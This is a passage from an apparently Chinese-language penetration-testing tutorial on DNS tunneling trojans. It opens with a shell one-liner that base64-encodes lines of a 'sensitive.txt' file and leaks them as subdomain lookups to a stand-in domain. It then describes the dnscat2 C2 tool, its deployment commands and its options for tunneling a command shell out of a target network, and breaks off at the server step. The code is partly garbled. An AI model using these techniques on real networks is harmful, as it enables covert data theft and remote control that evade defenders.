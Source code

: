 ```
For I in (cat sensitive.txt); do d=(echoi|base64) &amp;&amp; nslookup d.test.com; done
/**对每行内容进行base64编码,在DNS查询期间将其用作子域，一旦查询到达test.com的Authoritative DNS服务器，我们就可以捕获相应的DNS日志，通过解析日志可以获得子域，从而得到相应的敏感数据**/
这样的 shell 自然存在许多不足的地方
```

1、单向通信，不能从 C2(Authoritative DNS) 发回命令<br>
2、读取文件非常容易，如果需要处理 100MB 数据时DNS 数据包可能会以不同的顺序到达。<br>
根据木马工作原理的不同,将 DNS隧道木马细分为IP直连型和域名型，这里主要介绍：DnsCat2、Dnscat2-powershell、Reverse_DNS_Shell。

<a name="dnscat2"></a>**dnscat2**

DNScat2 支持加密，通过预共享密钥进行身份验证，多个同时进行的会话，类似于 ssh 中的隧道，命令 shell 以及最流行的 DNS 查询类型（TXT，MX，CNAME，A，AAAA）,客户端用 C 语言编写，服务器用 ruby 编写。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0155ea27f101d909dc.png)<br>
Dns Tuneling

当运行客户端时，需要指定一个域名（域名型DNS隧道木马），所有请求都将发送到本地DNS 服务器，然后将转发至该域 Authoritative DNS 服务器，如果你没有一个 Authoritative DNS 服务器，你也可以选择 UDP 的53 端口（IP直连型 DNS隧道木马），这样速度更快，而且看起来仍然像普通的 DNS 查询，但是在请求日志中所有域名都是以 dnscat 开头，这种模式也容易被防火墙检测到，Server 需要在Authoritative DNS 服务器上运行，与 Client 相同需要指定域名/IP。

[![](https://p0.ssl.qhimg.com/t01f4ccf70c266f521d.png)](https://p0.ssl.qhimg.com/t01f4ccf70c266f521d.png)<br>
​ 域名型 DNS 隧道木马通信架构图

一、部署

```
#Client
$ git clonehttps://github.com/iagox86/dnscat2.git
$ cd dnscat2/client/
$ make
#Server
yum install rubygems
gem install bundler
git clonehttps://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install
```

二、参数介绍<br>
请注意把 dnsch.cirrus.[domain] 换成你自己的域名。<br>
命令行中：

> -c 参数定义了 pre-shared secret，可以使用具有预共享密钥的身份验证来防止中间人（man-in-the-middle）攻击，否则传输数据并未加密，有可能被监听网络流量的第三方还原；如果不加定义，Dnscat2会生成一个字符串，记得拷贝下来在启动客户端时使用。
-e 参数可以规定安全级别， open 代表让客户端进行选择。
—no-cache 请务必在运行服务器时添加无缓存选项，因为 powershell-dnscat2 客户端与 dnscat2 服务器的 caching 模式不兼容。

三、Usage<br>
如果目标内网放行了所有的 DNS 请求，那么就可以直接指定 HOST ，通过 UDP53 端口通信，而如果目标内网只允许和受信任的 DNS 服务器通信时就需要申请注意域名，并将运行 dnscat2 server 的服务器指定 Authoritative DNS 服务器，这里我们以第一种情况为例。<br>
四、细节如下<br>
1）Server
